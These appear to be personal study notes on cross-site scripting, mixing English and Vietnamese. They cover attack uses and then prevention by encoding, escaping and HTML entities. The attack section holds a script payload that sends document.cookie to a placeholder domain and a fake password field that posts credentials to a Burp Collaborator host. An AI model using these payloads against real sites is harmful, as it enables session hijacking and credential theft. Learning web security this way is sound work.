 - `Steal Cookie :`

⇒ Condition :  Accessed to DOM , and cookie is not set `HTTPonly .`

payload : OOB 

```jsx
//basic example 
<script> fetch(`yourdomain.com?cookie=${document.cookie}`) </script> 

```

- `Capture mysterious content`

```jsx
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

- `To perform CSRF`

Get CSRF token ⇒ make request ⇒ change information depends behavior of functionality

## HOW TO PREVENT

hai khái niệm  : encoding và escape 

Encoding and escaping are two method of transforming data  so that (để có thể ) it does not `interfere`(can thiệp) with the syntax and structure of your web page .

### Encoding  :

Means converting data into difference format , such as hexadecimal or base64 , that is not `interpreted` (thông dịch) by browser as code . 

### Escaping  :

Means adding special character , such as backslashes or quotes  

#Lưu ý : 

HTML encoding ở context attribute () mai test 

HTML Sanitization

- `Encode data on output`

### In HTML context

should be convert non-whitelist values into HTML entities : 

- `<` converts to: `&lt;`
- `>` converts to: `&gt;`
